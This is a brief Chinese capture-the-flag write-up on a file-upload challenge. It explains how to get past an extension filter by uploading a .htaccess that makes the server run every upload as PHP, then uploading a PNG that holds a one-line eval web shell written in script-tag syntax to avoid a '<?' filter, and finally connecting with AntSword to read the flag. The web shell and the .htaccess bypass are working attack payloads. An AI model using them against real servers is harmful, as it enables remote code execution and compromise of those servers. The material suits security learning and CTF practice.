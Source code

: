 # 知识点：

# 1.文件上传

# 2. .htaccess将所有上传文件解析成php文件

# 3.  <? 被过滤时的js写法



1.判断什么文件可以上传

发现后缀名不能存在ph

而且，文件不能含有太多内容，否则什么文件都不能上传



2. 发现文件类型为：

```javascript
Content-Type: image/jpeg
```

文件内容较少时可以上传，搞不懂



3. 上传webshell

3.1 上传.htaccess文件

```javascript
SetHandler application/x-httpd-php
```



在nginx服务器时可以上传 user.ini文件



3.2 上传png结尾的图片

```javascript
<script language="php">eval($_POST['a']);</script>
```





4. 蚁剑连上，根目录找到flag